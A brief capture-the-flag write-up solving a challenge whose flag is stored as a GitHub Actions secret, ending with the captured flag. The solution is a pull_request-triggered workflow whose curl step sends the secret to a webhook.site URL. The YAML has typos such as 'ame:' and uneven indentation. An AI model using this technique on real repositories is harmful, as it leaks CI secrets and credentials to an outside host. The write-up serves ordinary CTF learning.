

# Comments
> You must solve the first challenge to get the answer, all you need is inside the Loby.

## About the Challenge
We were given a repository whose flags are located in the GitHub workflow



## How to Solve?
To get the flag, I created another workflow like this

```yaml
ame: Say Hi

 on: [pull_request]

 jobs:
   build:

     runs-on: ubuntu-latest

     steps:
     - uses: actions/checkout@v2
     - name: Say Hi
       run: |
         curl "https://webhook.site/b7c7b30c-1536-4672-a15c-646bcd1ef28e?username=${{ secrets.FLAG }}"
```

This workflow will send the flag to `webhook.site` using `curl` command, and then create a pull request to trigger the workflow


```
EKO{m0ve_y0uR_b0dy}
```